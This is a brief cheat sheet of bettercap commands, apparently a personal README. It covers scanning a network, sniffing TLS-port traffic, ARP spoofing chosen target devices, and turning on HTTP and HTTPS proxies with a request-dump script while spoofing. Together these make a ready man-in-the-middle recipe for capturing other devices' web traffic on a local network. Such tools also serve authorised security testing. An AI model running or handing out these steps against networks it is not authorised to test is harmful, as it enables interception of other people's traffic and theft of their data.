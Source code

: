 # bettercap 
swiss army knife for network attacks and monitoring

## scan network
```
net.show
net.probe on
net.sniff on
```

## set ticker
```
set ticker.commands 'net.show'
ticker.period <second>
ticker on
```

## arp spoof
```
set arp.spoof.targets <device>
arp.spoof on
net.show
```

## lost internet
```
events.stream off
net.probe on
sleep 1
net.probe off

set net.sniff.verbose false
set net.sniff.filter tcp port 443
net.sniff on
```

## use this proxy script to dump request
```
set http.proxy.script http-req-dump.js
set https.proxy.script http-req-dump.js

http.proxy on
https.proxy on
arp.spoof on
```
